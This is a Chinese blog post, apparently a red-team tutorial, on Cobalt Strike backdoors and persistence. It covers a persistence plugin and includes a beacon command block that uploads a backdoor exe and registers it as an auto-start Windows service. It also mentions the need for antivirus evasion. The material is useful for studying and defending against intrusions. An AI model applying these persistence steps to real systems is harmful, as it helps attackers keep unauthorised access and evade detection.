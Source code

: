```yaml
---
layout:     post
title:    Cobalt Strike系列 6
subtitle:   Cobalt Strike 后门与权限维持
date:       2019-08-20
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - Cobalt Strike
    - 红队
---
```

# Cobalt Strike系列 6 后门与权限维持


# 简介

- 后门  
- CS插件权限维持  



## 后门
当我们接到某个任务应急的时候，往往系统已经是被入侵了，甚至已经被脱库，且植入后门继续进行持续攻击。 攻击者在后渗透阶段的目的是什么？完成作战目的后，不让防御者溯源，即反溯源。攻击者进入持续攻击阶段，与前面的渗透攻击的重要区别就在于持续性，权限的维持，后门在持续攻击中就是非常重要的一环。  
常见后门种类：  
- 本地后门  
- 第三方后门  

根据触发机制又可以分为：  
- 主动后门  
- 被动后门  

一个优秀的后门最起码应该是隐蔽的，然后要稳定。  
一个优秀成熟的后门，能够极大的增加防御者投入在对抗攻击中的人力成本，物力成本。  
劣质的后门，不但起不到持久化作用，还会加快结束攻击者的行动，甚至会暴露攻击者。  

## CS插件权限维持
常见维持权限的手段：  
- 注册表  
- 启动项  
- 计划任务  
- 服务  
- 后门  
- dll劫持  
- 等等  

###  CS添加插件

CS中需要手动添加插件，用来权限维持。  
需要先下载cna脚本，我是在春秋上下的，可以自己去取。  
![add_pug](/img/add_pug.png)   
然后load脚本。  
![add_pug2](/img/add_pug2.png)   
再右键beacon就会发现，多了persist选项。  
![persist](/img/persist.png)   
简单介绍下几个模块的用法。  
前面几个都是基于dll劫持的。  
sticky keys 是shift后门。
scheduled job是计划任务维持。  
使用的话直接使用就可以了。  

###  开机启动后门
我们尝试用生成的exe，添加到开机任务来维持权限。  
首先生成exe后门，测试就不用免杀，实际中生成的基本不能直接用，统统被杀软爆了。  
然后在beacon中操作：  
```
beacon> cd C:\WINDOWS\Temp\
beacon> upload /Users/xxxx/Desktop/1.exe
beacon> shell sc create "aaser" binpath= "C:\WINDOWS\Temp\1.exe"
beacon> shell sc description "aaser" "description"
beacon> shell sc config "aaser" start= auto
beacon> shell net start "aaser"
```
这样一来每次重启，都会执行1.exe返回beacon。当然问题最大的还是免杀，后面再讲这个问题。  

###  dll后门
坑先挖好，暂时不知道怎么写，有些细节不知道怎么去展开。  


## 结语
本来想写下转发的，但是环境没搭建好，所以写这个。 在写的过程中发现，铺开来讲实在是太多了，一个dll都能拉出来专门开一个坑了，还有自己编写后门，我需要再考虑考虑这个问题。    













